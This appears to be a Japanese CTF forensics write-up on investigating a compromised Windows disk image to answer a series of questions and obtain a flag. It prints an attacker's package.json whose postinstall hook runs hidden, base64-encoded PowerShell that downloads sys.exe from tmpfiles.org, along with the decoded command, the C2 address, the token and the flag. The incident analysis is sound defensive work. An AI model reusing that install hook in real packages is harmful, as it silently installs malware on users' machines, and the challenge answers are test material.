










# Silent Visitor:Forensics:345pts
A user reported suspicious activity on their Windows workstation. Can you investigate the incident and uncover what really happened?  

[https://drive.google.com/file/d/1-usPB2Jk1J59SzW5T_2y46sG4fb9EeBk/view?usp=sharing](https://drive.google.com/file/d/1-usPB2Jk1J59SzW5T_2y46sG4fb9EeBk/view?usp=sharing)  

`nc foren-1f49f8dc.p1.securinets.tn 1337`  

# Solution
test.ad1なる巨大ファイルと接続先が渡される。  
※ファイルサイズの問題でtest.ad1を分割している(`cat test.ad1-?? > test.ad1`で戻せる)。
```
436e99d31fdeda041ab8141430402396c8f892f9  test.ad1
cce6743ef1b9119894f805e706563513e68bd419  test.ad1-00
8dafddc458f751dc702e2186707f4962dd2828fa  test.ad1-01
d23b5d260483a7190146a99fd4e53c0a3c27b0b8  test.ad1-02
499f63ac9f079415cd05ecb65560dacd80d7a612  test.ad1-03
b206bcb29c9be4763786f73b27647212c566a8db  test.ad1-04
42bf96e92a0e58a274a143e1dc7292dd30dea509  test.ad1-05
d84cceb936289bd3af93a7758381be6526bfbedb  test.ad1-06
53a13b54e661bb9f4e3656db8450ed61a4181b1b  test.ad1-07
4f692c86062666bbf0b47897db7d2fdf659b1a1f  test.ad1-08
a2222e83241c42c7633a6cf35151d4647b27d5e6  test.ad1-09
06c9725e0c260439b98cf2dbc7a9f1328b955f48  test.ad1-10
e71d711646a6c74a89786dddcca34d7bec9cef10  test.ad1-11
d4fbc93126d3e0cbbc792cc68f669a5896b629d7  test.ad1-12
cd447326c1b5feb9a70b3933863e857e67056a77  test.ad1-13
c9822db46200eb6e31c122d18732d78381dfc60f  test.ad1-14
ac89010c65ba23e3b6f41890294f073fee259a98  test.ad1-15
16875eda970f0131089d5c1f581b043b86bf84b2  test.ad1-16
8d1437d78099329a0c797fbf373d850dea4dee4d  test.ad1-17
d67444a8c4c49d530b39680146690bcf772447e8  test.ad1-18
96329b8c2ff3cfc5be1ac92be0c9812265086a79  test.ad1-19
981b611e4f73eea889df5c492cb21bdec559bd88  test.ad1-20
18edab466b25b9d14b6496f971503511e0aaecef  test.ad1-21
aac6c4831b88b777e541f525e4af37c7776259ba  test.ad1-22
949502144147474887db334fe374474df7ed51d2  test.ad1-23
d86600af4b196edf958d10398175a06e549bcb3e  test.ad1-24
926b1c794c086547963e980349a980ed68693480  test.ad1-25
```
初めに、与えられた接続先へ繋ぐと、以下のように質問が表示される。  
```bash
$ nc foren-1f49f8dc.p1.securinets.tn 1337
What is the SHA256 hash of the disk image provided?
Input:
```
ファイルを解析し、質問に一つずつ答えることで最後にフラグが表示される問題のようだ。  
最初の質問は、与えられたディスクイメージのSHA256を聞かれているので`sha256sum`すればよい。  
```bash
$ sha256sum test.ad1
122b2b4bf1433341ba6e8fefd707379a98e6e9ca376340379ea42edb31a5dba2  test.ad1
```
`122b2b4bf1433341ba6e8fefd707379a98e6e9ca376340379ea42edb31a5dba2`が得られた。  
次の質問は以下の通りであった。  
```
Identify the OS build number of the victim’s system?
Input:
```
どうやら何かの被害者マシンのイメージのようで、OSのビルドナンバーを答えればよいらしい。  
[Exterro FTK Imager](https://www.exterro.com/digital-forensics-software/ftk-imager)でファイルを開き、`C:\Windows\System32\config`から`SOFTWARE`ハイブファイルを抜き取る。  
  
抜き取ったファイルを[Registry Explorer](https://download.ericzimmermanstools.com/net9/RegistryExplorer.zip)で確認し、`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion`を見るとビルドナンバーが書かれていた。  
  
`19045`が答えとなる。  
次の質問は以下の通りであった。  
```
What is the ip of the victim's machine?
Input:
```
被害者のIPを調べろとのことらしい。  
同じく`SYSTEM`ハイブファイルを抜き取り、`HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Tcpip\Parameters\Interfaces`を見に行く。  
  
DHCPから割り当てられた、IPアドレス`192.168.206.131`が書かれていた。  
次の質問は以下の通りであった。  
```
What is the name of the email application used by the victim?
Input:
```
被害者が利用していたメールアプリケーションを答えろと言われている。  
Exterro FTK ImagerでUsers以下を確認していると、`ammar`なるユーザが存在し、ダウンロードフォルダにThunderbirdのインストーラがあった(作問者の消し忘れかもしれない)。  
  
`Thunderbird`が答えとなる。  
次の質問は以下の通りであった。  
```
What is the email of the victim?
Input:
```
被害者のメールアドレスを特定すればよいらしい。  
Thunderbirdのメールデータを漁っていると`C:\Users\ammar\AppData\Roaming\thunderbird\Profiles\6red5uxz.default-release\ImapMail\imap.gmail.com\[Gmail].sbd\Sent Mail`に送信済みメールを発見することができた。  
  
被害者のメールアドレスはユーザ名も含まれる、`ammar55221133@gmail.com`のようだ。  
次の質問は以下の通りであった。  
```
What is the email of the attacker?
Input:
```
攻撃者のメールアドレスを探せということらしい。  
幸いにも先ほどと同じファイルの中に怪しいメールアドレス`masmoudim522@gmail.com`があった。  
次の質問は以下の通りであった。  
```
What is the URL that the attacker used to deliver the malware to the victim?
Input:
```
攻撃者がマルウェアを運んだURLを答えろとのことらしい。  
先ほどと同じファイルのメールを一つずつ確認すると、以下のような怪しいものがあった。  
  
`https://github.com/lmdr7977/student-api`が得られたが不正解のようだ。  
リポジトリの中身を見てやると怪しいファイルが複数あるが、`package.json`の中のbase64されたスクリプトにマルウェアの配布先が含まれていた。  
```bash
$ ls
index.js  package-lock.json  package.json  proc.js
$ cat package.json
{
  "name": "windows",
  "version": "1.0.0",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "postinstall": "powershell -NoLogo -NoProfile -WindowStyle Hidden -EncodedCommand \"JAB3ACAAPQAgACIASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACIAOwAKACQAdQAgAD0AIAAiAGgAdAB0AHAAcwA6AC8ALwB0AG0AcABmAGkAbABlAHMALgBvAHIAZwAvAGQAbAAvADIAMwA4ADYAMAA3ADcAMwAvAHMAeQBzAC4AZQB4AGUAIgA7AAoAJABvACAAPQAgACIAJABlAG4AdgA6AEEAUABQAEQAQQBUAEEAXABzAHkAcwAuAGUAeABlACIAOwAKAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAbwA=\""
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "description": "",
  "dependencies": {
    "child_process": "^1.0.2",
    "express": "^5.1.0",
    "path": "^0.12.7"
  }
}
$ echo 'JAB3ACAAPQAgACIASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACIAOwAKACQAdQAgAD0AIAAiAGgAdAB0AHAAcwA6AC8ALwB0AG0AcABmAGkAbABlAHMALgBvAHIAZwAvAGQAbAAvADIAMwA4ADYAMAA3ADcAMwAvAHMAeQBzAC4AZQB4AGUAIgA7AAoAJABvACAAPQAgACIAJABlAG4AdgA6AEEAUABQAEQAQQBUAEEAXABzAHkAcwAuAGUAeABlACIAOwAKAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAbwA=' | base64 -d
$w = "Invoke-WebRequest";
$u = "https://tmpfiles.org/dl/23860773/sys.exe";
$o = "$env:APPDATA\sys.exe";
Invoke-WebRequest $u -OutFile $o
```
`https://tmpfiles.org/dl/23860773/sys.exe`が答えとなる。  
次の質問は以下の通りであった。  
```
What is the SHA256 hash of the malware file?
Input:
```
先ほどのスクリプトから、被害者マシンの`%APPDATA%`にマルウェアがドロップされたことがわかる。  
Exterro FTK Imagerで確認すると、確かに`sys.exe`というマルウェアがあるのでこれを取り出して`sha256sum`すればよい。  
  
```bash
$ sha256sum sys.exe
be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d  sys.exe
```
`be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d`が得られた。  
次の質問は以下の通りであった。  
```
What is the IP address of the C2 server that the malware communicates with?
Input:
```
マルウェアのC2のIPアドレスを特定せよとのことのようだ。  
幸いマルウェアのSHA256があるので、検索すると「[Malware analysis sys.exe Malicious activity | ANY.RUN - Malware Sandbox Online](https://any.run/report/be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d/7463ff94-084c-4eae-a46b-3435593887e9)」がヒットする。  
Network activityの項目を見ると以下の通りであった。  
  
`40.113.161.85`に頻繁にリクエストを送っており、これがC2のIPアドレスであった。  
次の質問は以下の通りであった。  
```
What port does the malware use to communicate with its Command & Control (C2) server?
Input:
```
マルウェアが使ったポートを特定せよとのことだが、先ほどのNetwork activityにある`5000`が答えであった。  
次の質問は以下の通りであった。  
```
What is the url if the first Request made by the malware to the c2 server?
Input:
```
マルウェアの最初のC2へのリクエストURLを聞かれている。  
これも先ほどのNetwork activityにあるC2への最初のURLである`http://40.113.161.85:5000/helppppiscofebabe23`が答えとなる。  
次の質問は以下の通りであった。  
```
The malware created a file to identify itself. What is the content of that file?
Input:
```
マルウェアが自身の識別のために何らかのファイルを作ったようだ。  
ANY.RUNを調べるが、怪しいファイル作成ログもない。  
Exterro FTK Imagerに戻り、ユーザ`ammar`以下のディレクトリを調査するがやはり不審なファイルは見られない。  
ここで`C:\Users\Public`に何か作っているのではと考えて捜索すると、`C:\Users\Public\Documents\id.txt`という怪しいファイルが作成されていた。  
  
作成日時も`2025/04/05 (土) 17:48:46`と、`sys.exe`ができた`2025/04/05 (土) 17:48:00`の感染後すぐの時間のようだ。  
ファイルの中身の`3649ba90-266f-48e1-960c-b908e1f28aef`が答えであった。  
次の質問は以下の通りであった。  
```
Which registry key did the malware modify or add to maintain persistence?
Input:
```
マルウェアが永続化のためにレジストリキーを編集したようだ。  
よくあるスタートアップ系を確認していく。  
Exterro FTK Imagerで`C:\Users\ammar`から`NTUSER.DAT`ハイブファイルを抜き取り、Registry Explorerで`sys.exe`で検索してやる。  
  
するとよくあるスタートアップ系のレジストリに`MyApp`として`C:\Users\ammar\Documents\sys.exe`が登録されていた。  
このキーである`HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\MyApp`が答えとなる(HKCUでは不正解とされた)。  
次の質問は以下の通りであった。  
```
What is the content of this registry?
Input:
```
コンテンツを聞かれているので、先ほどのキーの値を応えればよい。  
`C:\Users\ammar\Documents\sys.exe`が答えである。  
次の質問は以下の通りであった。  
```
The malware uses a secret token to communicate with the C2 server. What is the value of this key?
Input:
```
C2との通信にシークレットトークンを利用しているので、それを調べろとのことらしい。  
ひとまずマルウェア本体である`sys.exe`を調査する。  
```bash
$ strings sys.exe | grep secret
~~~
build   -ldflags="-s -w -X main.secret=e7bcc0ba5fb1dc9cc09460baaa2a6986 -X main.ipC2=qukttvktstk}p -H windowsgui"
build   -ldflags="-s -w -X main.secret=e7bcc0ba5fb1dc9cc09460baaa2a6986 -X main.ipC2=qukttvktstk}p -H windowsgui"
```
stringsすると`e7bcc0ba5fb1dc9cc09460baaa2a6986`なる怪しい値が出てきた。  
これが最後の答えであった。  
pythonですべての答えを投げるスクリプトを書いて、実行すると以下の通りとなる。  
```bash
$ python solve.py
[+] __init__: Successfully connected to foren-1f49f8dc.p1.securinets.tn:1337
What is the SHA256 hash of the disk image provided?
Input: 122b2b4bf1433341ba6e8fefd707379a98e6e9ca376340379ea42edb31a5dba2
Correct answer
Identify the OS build number of the victim’s system?
Input: 19045
Correct answer
What is the ip of the victim's machine?
Input: 192.168.206.131
Correct answer
What is the name of the email application used by the victim?
Input: Thunderbird
Correct answer
What is the email of the victim?
Input: ammar55221133@gmail.com
Correct answer
What is the email of the attacker?
Input: masmoudim522@gmail.com
Correct answer
What is the URL that the attacker used to deliver the malware to the victim?
Input: https://tmpfiles.org/dl/23860773/sys.exe
Correct answer
What is the SHA256 hash of the malware file?
Input: be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d
Correct answer
What is the IP address of the C2 server that the malware communicates with?
Input: 40.113.161.85
Correct answer
What port does the malware use to communicate with its Command & Control (C2) server?
Input: 5000
Correct answer
What is the url if the first Request made by the malware to the c2 server?
Input: http://40.113.161.85:5000/helppppiscofebabe23
Correct answer
The malware created a file to identify itself. What is the content of that file?
Input: 3649ba90-266f-48e1-960c-b908e1f28aef
Correct answer
Which registry key did the malware modify or add to maintain persistence?
Input: HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\MyApp
Correct answer
What is the content of this registry?
Input: C:\Users\ammar\Documents\sys.exe
Correct answer
The malware uses a secret token to communicate with the C2 server. What is the value of this key?
Input: e7bcc0ba5fb1dc9cc09460baaa2a6986
Correct answer
Sahaaaaaaaaaaa Securinets{de2eef165b401a2d89e7df0f5522ab4f}
by enigma522
[WARN] thread_recv: Connection closed by foren-1f49f8dc.p1.securinets.tn:1337
[+] _close_impl: Connection to foren-1f49f8dc.p1.securinets.tn:1337 closed
```
flagが出力された。  

## Securinets{de2eef165b401a2d89e7df0f5522ab4f}